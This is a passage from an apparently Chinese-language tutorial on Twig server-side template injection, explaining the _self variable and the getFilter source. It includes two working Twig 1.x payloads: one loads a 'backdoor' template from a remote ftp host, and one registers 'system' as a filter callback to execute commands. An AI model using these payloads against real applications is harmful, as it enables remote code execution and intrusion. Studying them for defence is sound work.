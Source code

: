 > 对应的代码是

```php
protected $specialVars = [
        '_self' => '$this',
        '_context' => '$context',
        '_charset' => '$this->env->getCharset()',
    ];
```
> 这里主要就是利用 `_self` 变量，它会返回当前 `\Twig\Template` 实例并提供了指向 `Twig_Environment` 的 `env` 属性，这样就可以继续调用 `Twig_Environment` 中的其他方法从而进行 SSTI
> 例如以下 Payload 可以调用 `setCache` 方法改变 Twig 加载 PHP 文件的路径，在 `allow_url_include` 开启的情况下可以通过改变路径实现远程文件包含

```php
{{_self.env.setCache("ftp://attackTarget:1234")}}{{_self.env.loadTemplate("backdoor")}}
```

> 还有 getFilter 方法中的 `call_user_func` 方法，Payload：`{{_self.env.registerUndefinedFilterCallback("system")}}{{_self.env.getFilter("calc.exe")}}` (但是在 Twig2.x 及 Twig3.x 以后 `_self` 的作用发生了变化，只能返回当前实例名字符串，故该 Payload 只对 Twig1.x 适用)

```php
public function getFilter($name)
    {
        if (null === $this->filters) {
            $this->loadFilters();
        }

        if (isset($this->filters[$name])) {
            return $this->filters[$name];
        }

        foreach ($this->filterCallbacks as $callback) {
            if (false !== $filter = call_user_func($callback, $name)) {
                return $filter;
            }
        }

        return false;
    }
```

<img src="./images/1.png" alt="">
